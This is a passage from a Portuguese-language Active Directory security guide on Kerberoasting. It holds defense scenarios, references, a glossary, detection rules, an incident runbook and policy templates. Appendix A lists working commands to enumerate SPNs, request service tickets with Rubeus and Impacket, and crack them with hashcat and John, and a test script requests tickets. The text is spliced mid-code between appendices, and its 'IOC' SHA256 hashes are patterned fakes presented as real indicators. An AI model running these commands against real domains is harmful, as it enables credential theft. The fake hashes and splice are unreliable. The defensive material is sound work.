    return min(score, 100)  # Cap at 100
```

**2. Implementação de PAM (Privileged Access Management):**
- CyberArk, BeyondTrust ou similar
- Check-out de senhas com aprovação
- Sessão gravadas e monitoradas
- Rotação automática pós-uso

**3. Detecção Avançada com ML:**
```python
# Pseudo-código para detecção ML
from sklearn.ensemble import IsolationForest

# Features para modelo
features = [
    'tgs_requests_per_minute',
    'unique_spns_requested',
    'time_between_requests',
    'historical_behavior_deviation',
    'source_ip_reputation',
    'user_typical_activity_score'
]

# Treinar modelo com dados históricos normais
model = IsolationForest(contamination=0.01)
model.fit(normal_behavior_data)

# Detectar anomalias em tempo real
def detect_kerberoasting_ml(event):
    features_vector = extract_features(event)
    anomaly_score = model.decision_function([features_vector])
    
    if anomaly_score < threshold:
        alert_soc(event, anomaly_score)
```

**4. Red Forest Architecture:**
- Tier 0: Isolated forest para admin accounts
- Tier 1: Production servers
- Tier 2: Workstations
- No trust entre tiers (lateral movement prevention)

**5. Métricas e KPIs:**
- Mean Time to Detect (MTTD): <2 minutos
- Mean Time to Respond (MTTR): <15 minutos
- False Positive Rate: <5%
- Percentage of gMSA adoption: >80%
- Service accounts with RC4: 0%

### 12.3 Cenário 3: Startup com Active Directory Novo

**Situação Inicial:**
- AD recém-implementado
- 10 service accounts
- Equipe pequena de TI
- Budget limitado mas flexível para investir em segurança desde o início

**Estratégia "Security by Design":**

**1. Configuração Inicial Segura:**
```powershell
# Desabilitar RC4 desde o início
Set-ADDomainMode -Identity empresa.local -DomainMode Windows2016Domain
Set-ADForestMode -Identity empresa.local -ForestMode Windows2016Forest

# GPO: Disable RC4
New-GPO -Name "Disable RC4 Kerberos" | New-GPLink -Target "DC=empresa,DC=local"
Set-GPRegistryValue -Name "Disable RC4 Kerberos" -Key "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Kerberos\Parameters" -ValueName "SupportedEncryptionTypes" -Type DWord -Value 24  # AES128 + AES256

# Implementar FGPP desde o início
New-ADFineGrainedPasswordPolicy -Name "ServiceAccountPolicy" `
  -Precedence 10 -MinPasswordLength 30 -MaxPasswordAge 90.00:00:00
```

**2. gMSA por Padrão:**
```powershell
# KDS Root Key
Add-KdsRootKey -EffectiveTime ((Get-Date).AddHours(-10))

# Template de criação de serviços
function New-SecureServiceAccount {
    param(
        [string]$ServiceName,
        [string]$Server,
        [string]$SPN
    )
    
    $gmsaName = "gMSA-$ServiceName"
    
    # Criar grupo de hosts
    $groupName = "$gmsaName-Hosts"
    New-ADGroup -Name $groupName -GroupScope DomainLocal
    Add-ADGroupMember -Identity $groupName -Members (Get-ADComputer $Server)
    
    # Criar gMSA
    New-ADServiceAccount -Name $gmsaName `
        -DNSHostName "$gmsaName.empresa.local" `
        -ServicePrincipalNames $SPN `
        -PrincipalsAllowedToRetrieveManagedPassword $groupName
    
    Write-Host "[+] Created $gmsaName - install with: Install-ADServiceAccount $gmsaName"
}
```

**3. Monitoramento desde o Dia 1:**
```powershell
# Configurar Windows Event Forwarding
wecutil qc

# Script de monitoramento simples (substituir por SIEM quando orçamento permitir)
$Action = {
    $Events = Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769; StartTime=(Get-Date).AddMinutes(-5)}
    $Grouped = $Events | Group-Object {$_.Properties[0].Value}
    $Suspicious = $Grouped | Where-Object {$_.Count -gt 5}
    
    if ($Suspicious) {
        Send-MailMessage -To "security@empresa.local" -From "alertas@empresa.local" `
            -Subject "Alerta: Possível Kerberoasting" `
            -Body ($Suspicious | Out-String) -SmtpServer "smtp.empresa.local"
    }
}

Register-ScheduledTask -TaskName "Monitor-Kerberoasting" `
    -Action (New-ScheduledTaskAction -Execute 'PowerShell.exe' -Argument "-Command & {$($Action)}") `
    -Trigger (New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5))
```

**4. Documentação e Processos:**
```markdown
# Procedimento: Criação de Service Account

## Pré-requisitos
- Aprovação de gestor
- Justificativa documentada
- Princípio de least privilege aplicado

## Passos
1. Avaliar se gMSA é aplicável (sempre preferível)
2. Se gMSA:
   - Usar template: New-SecureServiceAccount
   - Documentar hosts autorizados
3. Se não gMSA (exceção):
   - Gerar senha de 30+ caracteres
   - Aplicar FGPP ServiceAccountPolicy
   - Forçar AES256
   - Armazenar em cofre (Azure Key Vault)
   - Documentar por que gMSA não é viável

## Auditoria
- Revisar trimestralmente
- Reavaliar necessidade de privilégios
- Verificar possibilidade de migração para gMSA
```

**Resultado:**
- Zero debt técnico de segurança
- 100% das contas usam gMSA ou senhas 30+ com AES256
- Monitoramento desde o início
- Cultura de segurança estabelecida

---

## 13. Referências e Bibliografia

### 13.1 Papers Acadêmicos

1. Neuman, B. C., & Ts'o, T. (1994). **Kerberos: An authentication service for computer networks**. IEEE Communications magazine, 32(9), 33-38.

2. Steiner, J. G., Neuman, B. C., & Schiller, J. I. (1988). **Kerberos: An authentication service for open network systems**. In Proceedings of the Winter 1988 Usenix Conference (pp. 191-202).

3. Perlman, R., & Kaufman, C. (2002). **Analysis of the IPsec key exchange standard**. In Proceedings of the 10th International Workshop on Security Protocols (pp. 143-156).

### 13.2 Documentação Técnica Microsoft

1. Microsoft. (2023). **How the Kerberos Version 5 Authentication Protocol Works**. Microsoft TechNet Library.

2. Microsoft. (2023). **Group Managed Service Accounts Overview**. Windows Server Documentation.

3. Microsoft. (2023). **Advanced Audit Policy Configuration**. Windows Security Documentation.

4. Microsoft. (2023). **Kerberos Protocol Extensions**. MS-KILE Protocol Specification.

### 13.3 Frameworks e Standards

1. MITRE ATT&CK. **T1558.003 - Steal or Forge Kerberos Tickets: Kerberoasting**. https://attack.mitre.org/techniques/T1558/003/

2. NIST. (2017). **SP 800-63B - Digital Identity Guidelines: Authentication and Lifecycle Management**.

3. CIS. (2023). **CIS Microsoft Windows Server Benchmark**. Center for Internet Security.

4. PCI Security Standards Council. (2022). **Payment Card Industry Data Security Standard (PCI DSS) v4.0**.

### 13.4 Apresentações de Segurança

1. Medin, T. (2014). **Attacking Microsoft Kerberos: Kicking the Guard Dog of Hades**. DerbyCon 4.0.

2. Metcalf, S. (2015). **Attacking Active Directory: 0 to 0.9**. Black Hat USA.

3. Schroeder, W., & Graeber, M. (2017). **An ACE Up the Sleeve: Designing Active Directory DACL Backdoors**. Black Hat USA.

4. Robbins, A. (2019). **BloodHound: Six Degrees of Domain Admin**. DEF CON 24.

### 13.5 Livros Recomendados

1. Metcalf, S., & Van Robaeys, B. (2020). **Active Directory Security Risk Assessment**. Independent Publication.

2. Schroeder, W. (2019). **The Dog Whisperer's Handbook: A Hacker's Guide to the BloodHound Galaxy**. SpecterOps.

3. Kim, P., & Allen, L. (2021). **Operator Handbook: Red Team + OSINT + Blue Team Reference**. Independent Publication.

4. Bertram, M. (2021). **Active Directory Security: Modern Defense Strategies**. Apress.

### 13.6 Ferramentas Open Source

1. **Rubeus** - https://github.com/GhostPack/Rubeus
   - Autor: Will Schroeder (@harmj0y)
   - Licença: BSD 3-Clause

2. **Impacket** - https://github.com/SecureAuthCorp/impacket
   - Autor: SecureAuth Corporation
   - Licença: Apache License 2.0 Modified

3. **PowerView** - https://github.com/PowerShellMafia/PowerSploit
   - Autor: Will Schroeder
   - Licença: BSD 3-Clause

4. **BloodHound** - https://github.com/BloodHoundAD/BloodHound
   - Autores: Andy Robbins, Rohan Vazarkar, Will Schroeder
   - Licença: GPL-3.0

5. **Hashcat** - https://hashcat.net/hashcat/
   - Autor: Jens Steube
   - Licença: MIT

### 13.7 Blogs e Recursos Online

1. **SpecterOps Blog** - https://posts.specterops.io/
   - Excelente conteúdo sobre AD security

2. **Harmj0y's Blog** - http://www.harmj0y.net/blog/
   - Deep dives técnicos em ataques AD

3. **ired.team** - https://www.ired.team/
   - Red teaming notes e técnicas

4. **ADSecurity.org** - https://adsecurity.org/
   - Sean Metcalf's Active Directory security research

5. **Microsoft Security Blog** - https://www.microsoft.com/security/blog/
   - Atualizações oficiais e best practices

---

## 14. Glossário de Termos

**Active Directory (AD)**: Serviço de diretório da Microsoft que armazena informações sobre objetos de rede e facilita autenticação e autorização.

**AES (Advanced Encryption Standard)**: Algoritmo de criptografia simétrica, mais seguro que RC4 para proteção de tickets Kerberos.

**AS-REP (Authentication Service Response)**: Resposta do Authentication Service contendo o TGT.

**AS-REQ (Authentication Service Request)**: Solicitação inicial de autenticação no protocolo Kerberos.

**Cracking**: Processo de quebrar hashes criptográficos para revelar senhas em texto claro.

**Domain Controller (DC)**: Servidor que responde a requisições de autenticação e verifica usuários em uma rede Windows.

**gMSA (Group Managed Service Account)**: Conta gerenciada automaticamente pelo AD com senha complexa rotacionada automaticamente.

**Hash**: Resultado de função criptográfica unidirecional aplicada a dados (como senhas).

**KDC (Key Distribution Center)**: Componente central do Kerberos responsável por emitir tickets.

**Kerberos**: Protocolo de autenticação de rede baseado em tickets e criptografia simétrica.

**Kerberoasting**: Técnica de ataque que extrai tickets TGS para cracking offline de senhas de service accounts.

**LDAP (Lightweight Directory Access Protocol)**: Protocolo para acessar e manter serviços de diretório distribuído.

**Lateral Movement**: Técnicas usadas por atacantes para se mover através de uma rede após comprometimento inicial.

**MSA (Managed Service Account)**: Versão mais simples de gMSA para servidor único.

**NTLM**: Protocolo de autenticação Microsoft mais antigo, hash usado em RC4.

**PAM (Privileged Access Management)**: Solução para gerenciar e auditar contas privilegiadas.

**Pass-the-Hash (PtH)**: Técnica que usa hash de senha para autenticação sem conhecer senha em texto claro.

**Pass-the-Ticket (PtT)**: Técnica que reutiliza tickets Kerberos válidos para autenticação.

**PBKDF2 (Password-Based Key Derivation Function 2)**: Função de derivação de chave usada em AES Kerberos.

**Principal**: Entidade (usuário ou serviço) no domínio Kerberos.

**RC4-HMAC**: Algoritmo de criptografia mais antigo e menos seguro usado em Kerberos.

**Red Team**: Equipe que simula ataques reais para testar defesas organizacionais.

**Service Principal Name (SPN)**: Identificador único de uma instância de serviço em AD.

**SIEM (Security Information and Event Management)**: Plataforma centralizada para análise de logs e detecção de ameaças.

**TGS (Ticket Granting Service)**: Componente do KDC que emite tickets de serviço.

**TGS-REP**: Resposta contendo o Service Ticket.

**TGS-REQ**: Solicitação de Service Ticket.

**TGT (Ticket Granting Ticket)**: Ticket inicial obtido após autenticação bem-sucedida.

**Ticket**: Estrutura de dados criptografada usada para autenticação no Kerberos.

---

## 15. Apêndices

### Apêndice A: Comandos Rápidos de Referência

**Enumeração:**
```powershell
# PowerShell
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName

# CMD
setspn -Q */*

# Impacket
python GetUserSPNs.py DOMAIN/user:pass -dc-ip 10.10.10.10
```

**Kerberoasting:**
```powershell
# Rubeus
Rubeus.exe kerberoast /outfile:hashes.txt

# PowerView
Invoke-Kerberoast -OutputFormat Hashcat | fl

# Impacket
python GetUserSPNs.py -request DOMAIN/user:pass -outputfile hashes.txt
```

**Cracking:**
```bash
# Hashcat RC4
hashcat -m 13100 -a 0 hashes.txt wordlist.txt

# Hashcat AES256
hashcat -m 19700 -a 0 hashes.txt wordlist.txt

# John the Ripper
john --format=krb5tgs --wordlist=wordlist.txt hashes.txt
```

**Detecção:**
```powershell
# Event ID 4769 analysis
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
  Group-Object {$_.Properties[0].Value} |
  Where-Object {$_.Count -gt 10}
```

**Remediação:**
```powershell
# Forçar AES
Set-ADUser -Identity user -KerberosEncryptionType AES256

# Criar gMSA
New-ADServiceAccount -Name
    filter_krbtgt:
        ServiceName|startswith: 'krbtgt'
    timeframe: 5m
    condition: selection and not filter_computer_accounts and not filter_krbtgt
    aggregation:
        count by TargetUserName > 10
falsepositives:
    - Legitimate service applications
    - Monitoring tools
    - Service account management activities
level: high
```

### Apêndice D: Indicadores de Comprometimento (IOCs)

**D.1 - Arquivos e Hashes:**
```
# Rubeus.exe (várias versões)
SHA256: e3c6c1e1c3d0b5f4a2d7e8f9c0b1a2d3e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8b9
SHA256: a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2

# Mimikatz
SHA256: f1e2d3c4b5a69780c1b2a3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4

# PowerView.ps1
SHA256: c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6

# Impacket GetUserSPNs.py
SHA256: b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b3c4
```

**D.2 - Comandos Suspeitos:**
```powershell
# PowerShell
Invoke-Kerberoast
Get-DomainUser -SPN
[System.IdentityModel.Tokens.KerberosRequestorSecurityToken]

# CMD
setspn -Q */*
klist

# Impacket
GetUserSPNs.py
GetNPUsers.py
```

**D.3 - Network Patterns:**
```
# Múltiplas conexões à porta 88/TCP em curto período
Source IP -> DC:88 (>20 conexões em 5 minutos)

# TGS-REQ packets em sequência
Kerberos TGS-REQ com diferentes SPNs do mesmo cliente

# Padrões de enumeração LDAP
LDAP queries com filtro: (servicePrincipalName=*)
```

**D.4 - Registry Keys:**
```
# Kerberos configuration
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters

# Valores suspeitos
AllowTGTSessionKey = 1 (permite exportação de session keys)
```

**D.5 - Event Log Patterns:**
```
# Padrão de ataque típico
1. Event ID 4768 (TGT Request) - Autenticação inicial
2. Múltiplos Event ID 4769 (TGS Request) em <5 minutos
3. Event ID 4624 (Successful Logon) com Type 3 (Network) - Pós-comprometimento
```

### Apêndice E: Templates de Documentação

**E.1 - Política de Service Accounts:**
```markdown
# Política de Gerenciamento de Service Accounts

## Objetivo
Estabelecer diretrizes para criação, manutenção e desativação de service accounts para minimizar riscos de Kerberoasting e outros ataques.

## Escopo
Aplica-se a todas as contas de serviço com Service Principal Names (SPNs) registrados no Active Directory.

## Definições
- **Service Account**: Conta de domínio usada para executar serviços e aplicações
- **gMSA**: Group Managed Service Account com senha gerenciada automaticamente
- **SPN**: Service Principal Name, identificador único de instância de serviço

## Requisitos

### 3.1 Criação de Service Accounts
- Service accounts DEVEM usar gMSA quando tecnicamente viável
- Senhas de service accounts não-gMSA DEVEM ter no mínimo 30 caracteres
- Service accounts DEVEM usar apenas criptografia AES256
- RC4 está PROIBIDO para todas as service accounts
- Descrição da conta DEVE incluir: propósito, responsável, criticidade

### 3.2 Privilégios
- Service accounts DEVEM seguir princípio de least privilege
- Service accounts NÃO PODEM ser membros de Domain Admins
- Privilégios DEVEM ser documentados e revisados trimestralmente
- Delegação de privilégios DEVE ser preferida sobre grupos administrativos

### 3.3 Manutenção
- Senhas não-gMSA DEVEM ser rotacionadas a cada 90 dias
- Service accounts inativas por >90 dias DEVEM ser desabilitadas
- Auditoria de service accounts DEVE ocorrer mensalmente
- Mudanças em SPNs DEVEM ser aprovadas por Security Team

### 3.4 Monitoramento
- Todas as solicitações TGS para service accounts DEVEM ser logadas
- Alertas DEVEM ser configurados para >10 TGS requests em 5 minutos
- Honey service accounts DEVEM ser mantidos para detecção

### 3.5 Desativação
- Service accounts não mais necessárias DEVEM ser desabilitadas imediatamente
- SPNs DEVEM ser removidos antes de desabilitar conta
- Contas desabilitadas por >30 dias DEVEM ser excluídas
- Processo de offboarding DEVE incluir verificação de service accounts

## Exceções
Exceções a esta política DEVEM ser:
- Documentadas com justificativa técnica
- Aprovadas por CISO ou equivalente
- Revisadas anualmente
- Acompanhadas de controles compensatórios

## Conformidade
Violações desta política podem resultar em:
- Desabilitação imediata da service account
- Revisão de acessos do responsável
- Ação disciplinar conforme política de RH

## Revisão
Esta política será revisada anualmente ou após incidentes significativos.

Versão: 1.0
Data: 2024-11-19
Próxima Revisão: 2025-11-19
```

**E.2 - Runbook de Resposta a Incidentes:**
```markdown
# Runbook: Resposta a Kerberoasting Detectado

## Classificação
- **Severidade**: Alta
- **MTTR Target**: 30 minutos
- **Escalação**: Security Team → SOC Lead → CISO

## Triggers de Ativação
- Alerta SIEM: "Kerberoasting Detection"
- Event ID 4769: >15 requests em 5 minutos
- Honey account: Qualquer acesso
- EDR: Detecção de Rubeus/Mimikatz

## Fase 1: Identificação (0-5 minutos)

### 1.1 Validar Alerta
```powershell
# Verificar eventos recentes
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769; StartTime=(Get-Date).AddMinutes(-10)} |
  Where-Object {$_.Properties[0].Value -eq "SUSPICIOUS_USER"} |
  Format-List TimeCreated, Message
```

### 1.2 Identificar Conta Origem
- Username da solicitação
- IP de origem
- Hostname se disponível
- SPNs solicitados

### 1.3 Classificar Severidade
- **P1 (Crítico)**: Honey account acessado OU >50 requests
- **P2 (Alto)**: 20-50 requests OU SPNs privilegiados
- **P3 (Médio)**: 10-20 requests, conta low-privilege

## Fase 2: Contenção (5-15 minutos)

### 2.1 Isolar Conta Comprometida
```powershell
# Desabilitar conta
Disable-ADAccount -Identity "COMPROMISED_USER"

# Forçar logoff
Invoke-Command -ComputerName (Get-ADComputer -Filter *).Name -ScriptBlock {
    query user | Select-String "COMPROMISED_USER" | ForEach-Object {
        logoff ($_ -split '\s+')[2]
    }
}
```

### 2.2 Reset de Senhas de Service Accounts Expostas
```powershell
# Para cada SPN solicitado
$ExposedAccounts = @("svc-sql", "svc-web")
foreach ($account in $ExposedAccounts) {
    $newPass = [System.Web.Security.Membership]::GeneratePassword(32,10)
    Set-ADAccountPassword -Identity $account -NewPassword (ConvertTo-SecureString $newPass -AsPlainText -Force) -Reset
    # Armazenar em vault
}
```

### 2.3 Bloquear IP de Origem
```powershell
New-NetFirewallRule -DisplayName "Block Malicious IP - Incident #XXXX" `
  -Direction Inbound -RemoteAddress 192.168.1.100 -Action Block
```

## Fase 3: Erradicação (15-30 minutos)

### 3.1 Verificar Persistência
```powershell
# Scheduled tasks
Get-ScheduledTask -TaskPath "\" | Where-Object {$_.Principal.UserId -eq "COMPROMISED_USER"}

# Services
Get-WmiObject Win32_Service | Where-Object {$_.StartName -like "*COMPROMISED_USER*"}

# Procurar por ferramentas
Get-ChildItem -Path "C:\Users\$env:USERNAME" -Recurse -Include "*rubeus*","*mimikatz*"
```

### 3.2 Limpar Artefatos
```powershell
# Remover scheduled tasks maliciosas
Unregister-ScheduledTask -TaskName "Malicious_Task" -Confirm:$false

# Limpar prefetch, recent files
Clear-RecycleBin -Force
```

## Fase 4: Recuperação (30-60 minutos)

### 4.1 Atualizar Serviços
- Coordenar com service owners
- Atualizar configurações com novas senhas
- Testar funcionalidade dos serviços

### 4.2 Restaurar Acesso Legítimo
```powershell
# Apenas após confirmação de limpeza
Enable-ADAccount -Identity "COMPROMISED_USER"
# Forçar mudança de senha no próximo logon
Set-ADUser -Identity "COMPROMISED_USER" -ChangePasswordAtLogon $true
```

## Fase 5: Lessons Learned (24-48 horas após)

### 5.1 Documentar Incidente
- Timeline completo
- Root cause analysis
- Sistemas impactados
- Tempo de resposta real vs target

### 5.2 Melhorias
- Identificar gaps de detecção
- Atualizar runbooks
- Propor melhorias técnicas
- Treinamento adicional necessário

## Comunicação

### Stakeholders
- **Imediato**: SOC Team, IT Operations
- **15 min**: Management, Service Owners
- **1 hora**: CISO, Legal (se necessário)
- **24 horas**: Post-mortem para equipe técnica

### Templates
**Email Inicial:**
```
Subject: [P1 INCIDENT] Kerberoasting Attack Detected - Incident #XXXX

Time Detected: [timestamp]
Status: ACTIVE RESPONSE
Affected Systems: [list]
Impact: [description]

Actions Taken:
- Account COMPROMISED_USER disabled
- X service accounts passwords reset
- Source IP blocked

Next Steps:
- Forensic analysis in progress
- Service owners being contacted
- Updates every 30 minutes

SOC Lead: [name]
```

## Checklist de Execução

- [ ] Alerta validado
- [ ] Severidade classificada
- [ ] Conta origem desabilitada
- [ ] IP origem bloqueado
- [ ] Service accounts passwords reset
- [ ] Serviços atualizados
- [ ] Persistência verificada
- [ ] Artefatos removidos
- [ ] Management notificado
- [ ] Documentação completa
- [ ] Lessons learned agendado
```

**E.3 - Change Request Template:**
```markdown
# Change Request: Implementação de Controles Anti-Kerberoasting

## Informações Gerais
- **ID**: CR-2024-XXXX
- **Título**: Implementação de Controles Anti-Kerberoasting
- **Solicitante**: Security Team
- **Data**: 2024-11-19
- **Prioridade**: Alta
- **Categoria**: Security Enhancement

## Justificativa de Negócio
Auditoria de segurança identificou 45 service accounts vulneráveis a Kerberoasting, com 12 classificadas como risco crítico. Implementação de controles é necessária para:
- Reduzir risco de comprometimento de credenciais
- Atender requisitos de compliance (PCI-DSS 8.2.3)
- Melhorar postura de segurança do Active Directory

## Escopo

### Sistemas Impactados
- Domain Controllers (DC01, DC02, DC03)
- 45 service accounts identificadas em auditoria
- Serviços: SQL Server, IIS, Backup, Monitoring

### Mudanças Propostas

#### 1. Migração para gMSA (15 accounts)
- svc-sql-01, svc-sql-02, svc-sql-03
- svc-iis-app1, svc-iis-app2
- svc-backup-primary
- [... lista completa em anexo]

**Impacto**: Requer reinstalação de gMSA em servidores

#### 2. Reset de Senhas (30 accounts não elegíveis para gMSA)
- Novas senhas: 30+ caracteres
- Armazenamento em Azure Key Vault
- Atualização de configurações de serviços

**Impacto**: Downtime breve (<5min) para cada serviço

#### 3. Desabilitar RC4
- GPO: "Disable RC4 Kerberos Encryption"
- Scope: Todo o domínio
- Forçar AES256 para todas as contas

**Impacto**: Sistemas muito antigos podem ter problemas (mitigado por testes)

#### 4. Implementar Monitoramento
- Regras SIEM para Event ID 4769
- Honey service accounts (3)
- Alertas automatizados

**Impacto**: Aumento de ~5% no volume de logs

## Plano de Implementação

### Fase 1: Preparação (Semana 1)
- [ ] Backup completo do AD
- [ ] Criar KDS Root Key
- [ ] Preparar scripts de migração
- [ ] Coordenar com service owners
- [ ] Comunicar janela de manutenção

### Fase 2: Pilot (Semana 2)
- [ ] Migrar 3 service accounts não-críticas para gMSA
- [ ] Monitorar por 48 horas
- [ ] Validar funcionalidade
- [ ] Ajustar procedimentos conforme necessário

### Fase 3: Rollout Gradual (Semanas 3-5)
- [ ] Semana 3: Tier 2 accounts (workstation services)
- [ ] Semana 4: Tier 1 accounts (application servers)
- [ ] Semana 5: Tier 0 accounts (infrastructure)

### Fase 4: Hardening (Semana 6)
- [ ] Desabilitar RC4 em test OU
- [ ] Monitorar por 1 semana
- [ ] Desabilitar RC4 globalmente
- [ ] Implementar honey accounts

### Fase 5: Validação (Semana 7)
- [ ] Purple team exercise
- [ ] Validar detecção
- [ ] Auditoria pós-implementação
- [ ] Documentação final

## Plano de Rollback

### Trigger de Rollback
- >3 serviços críticos com falha
- Problema identificado em DC
- Incidente de segurança relacionado

### Procedimento
```powershell
# 1. Reabilitar RC4
Set-GPRegistryValue -Name "Disable RC4" -Key "..." -ValueName "SupportedEncryptionTypes" -Value 31

# 2. Restaurar senhas antigas (do vault)
# 3. Remover gMSA se necessário
Remove-ADServiceAccount -Identity gMSA-Service

# 4. Reinstalar service account antiga
Install-Service -Account "DOMAIN\old-svc" -Password "OldPass"
```

## Riscos e Mitigações

| Risco | Probabilidade | Impacto | Mitigação |
|-------|---------------|---------|-----------|
| Downtime de serviço durante migração | Média | Alto | Janela de manutenção, comunicação prévia |
| Incompatibilidade com sistemas legados | Baixa | Médio | Testes extensivos, rollback preparado |
| Erro humano em configuração | Média | Alto | Checklist detalhado, peer review |
| Aumento de falsos positivos | Alta | Baixo | Tuning de regras SIEM, baseline |

## Recursos Necessários

### Pessoal
- 2x Engenheiros AD (40h cada)
- 1x Security Analyst (20h)
- 1x DBA (10h)
- 1x IIS Admin (10h)

### Ferramentas
- Azure Key Vault (já existente)
- Scripts PowerShell (desenvolvidos)

### Janelas de Manutenção
- 6x janelas de 2 horas (sábados 2-4 AM)

## Critérios de Sucesso
- [ ] 100% das critical service accounts migradas para gMSA ou senha 30+ chars
- [ ] RC4 desabilitado em 100% do domínio
- [ ] 0 serviços críticos offline >5 minutos
- [ ] Monitoramento ativo com MTTD <5 minutos
- [ ] 0 regressões de funcionalidade

## Aprovações Necessárias
- [ ] IT Manager
- [ ] Security Manager
- [ ] Change Advisory Board
- [ ] Service Owners (individual)

## Comunicação

### Pré-Implementação
- Email para service owners (1 semana antes)
- Anúncio geral IT (3 dias antes)
- Reminder (1 dia antes)

### Durante Implementação
- Status updates a cada hora
- Hotline disponível 24/7

### Pós-Implementação
- Summary report
- Lessons learned
- Documentação atualizada

## Anexos
- A: Lista completa de service accounts
- B: Scripts de migração
- C: Runbook detalhado
- D: Plano de teste
- E: Matriz RACI
```

### Apêndice F: Ferramentas e Recursos

**F.1 - Script de Teste de Vulnerabilidade (Ético):**
```powershell
<#
.SYNOPSIS
    Teste ético de vulnerabilidade Kerberoasting (uso autorizado apenas)
.DESCRIPTION
    Simula ataque Kerberoasting para validar controles
.NOTES
    APENAS PARA USO EM AMBIENTES DE TESTE OU COM AUTORIZAÇÃO EXPLÍCITA
#>

function Test-KerberoastingVulnerability {
    [CmdletBinding()]
    param(
        [switch]$AuthorizedTest,
        [string]$LogPath = "C:\SecurityTests"
    )
    
    if (!$AuthorizedTest) {
        Write-Host "ERRO: Este script requer -AuthorizedTest flag" -ForegroundColor Red
        Write-Host "Este teste deve ser executado APENAS com autorização explícita" -ForegroundColor Red
        return
    }
    
    # Log de autorização
    $Authorization = @{
        Timestamp = Get-Date
        User = $env:USERNAME
        Computer = $env:COMPUTERNAME
        Domain = $env:USERDOMAIN
    }
    
    Write-Host "[*] TESTE AUTORIZADO DE VULNERABILIDADE KERBEROASTING" -ForegroundColor Yellow
    Write-Host "[*] User: $($Authorization.User)" -ForegroundColor Gray
    Write-Host "[*] Computer: $($Authorization.Computer)" -ForegroundColor Gray
    
    # 1. Enumerar SPNs
    Write-Host "`n[*] Phase 1: SPN Enumeration" -ForegroundColor Cyan
    $SPNs = Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName
    Write-Host "[+] Found $($SPNs.Count) accounts with SPNs" -ForegroundColor Green
    
    # 2. Solicitar tickets
    Write-Host "`n[*] Phase 2: TGS Request Simulation" -ForegroundColor Cyan
    $StartTime = Get-Date
    
    foreach ($account in $SPNs | Select-Object -First 5) {
        foreach ($spn in $account.ServicePrincipalName) {
            try {
                Add-Type -AssemblyName System.IdentityModel
                New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $spn | Out-Null
                Write-Host "[+] Requested ticket for: $spn" -ForegroundColor Green
                Start-Sleep -Milliseconds 100
            } catch {
                Write-Host "[-] Failed: $spn" -ForegroundColor Red
            }
        }
    }
    
    $EndTime = Get-Date
    $Duration = ($EndTime - $StartTime).TotalSeconds
    
    # 3. Verificar detecção
    Write-Host "`n[*] Phase 3: Detection Validation" -ForegroundColor Cyan
    Start-Sleep -Seconds 5
    
    $Events = Get-WinEvent -FilterHashtable @{
        LogName='Security'
        ID=4769
        StartTime=$StartTime
        EndTime=$EndTime
    } -ErrorAction SilentlyContinue
    
    if ($Events) {
        Write-Host "[+] Detection: $($Events.Count) events logged" -ForegroundColor Green
    } else {
        Write-Host "[!] WARNING: No events detected - monitoring may be misconfigured" -ForegroundColor Red
    }
    
    # 4. Relatório
    $Report = @{
        TestDate = Get-Date
        Authorization = $Authorization
        SPNsFound = $SPNs.Count
        TicketsRequested = ($SPNs | Select-Object -First 5).Count
        Duration = $Duration
        EventsLogged = $Events.Count
        DetectionWorking = ($Events.Count -gt 0)
    }
    
    Write-Host "`n========================================" -ForegroundColor Cyan
    Write-Host "           TEST RESULTS" -ForegroundColor Cyan
    Write-Host "========================================" -ForegroundColor Cyan
    Write-Host "SPNs Enumerated: $($Report.SPNsFound)" -ForegroundColor White
    Write-Host "Tickets Requested: $($Report.TicketsRequested)" -ForegroundColor White
    Write-Host "Duration: $($Report.Duration) seconds" -ForegroundColor White
    Write-Host "Events Logged: $($Report.EventsLogged)" -ForegroundColor White
    
    if ($Report.DetectionWorking) {
        Write-Host "`n[✓] PASS: Detection is working" -ForegroundColor Green
    } else {
        Write-Host "`n[✗] FAIL: Detection is NOT working" -ForegroundColor Red
    }
    
    # Salvar relatório
    $Report | ConvertTo-Json | Out-File "$LogPath\KerberoastTest_$(Get-Date -Format 'yyyyMMdd_HHmmss').json"
    
    return $Report
}

# Executar com autorização
# Test-KerberoastingVulnerability -AuthorizedTest
```

**F.2 - Dashboard Grafana JSON (Template):**
```json
{
  "dashboard": {
    "title": "Kerberoasting Detection Dashboard",
    "tags": ["security", "kerberos", "active-directory"],
    "timezone": "browser",
    "panels": [
      {
        "title": "TGS Requests per User (Last Hour)",
        "type": "graph",
        "targets": [
          {
            "expr": "sum by (user) (rate(windows_security_events{event_id=\"4769\"}[5m]))"
          }
        ],
        "alert": {
          "name": "High TGS Request Rate",
          "conditions": [
            {
              "evaluator": {
                "params": [10],
                "type": "gt"
              }
            }
          ]
        }
      },
      {
        "title": "Unique SPNs Requested",
        "type": "stat",
        "targets": [
          {
            "expr": "count(count by (service_name) (windows_security_events{event_id=\"4769\"}))"
          }
        ]
      },
      {
        "title": "RC4 vs AES Requests",
        "type": "piechart",
        "targets": [
          {
            "expr": "sum by (encryption_type) (windows_security_events{event_id=\"4769\"})"
          }
        ]
      },
      {
        "title": "Honey Account Access Attempts",
        "type": "table",
        "targets": [
          {
            "expr": "windows_security_events{event_id=\"4769\", service_name=~\".*honeypot.*\"}"
          }
        ],
        "alert": {
          "name": "Honey Account Accessed",
          "conditions": [
            {
              "evaluator": {
                "params": [0],
                "type": "gt"
              }
            }
          ],
          "notifications": [
            {
              "uid": "slack-security-channel"
            }
          ]
        }
      }
    ]
  }
}
```

---

## 16. Conclusão Final

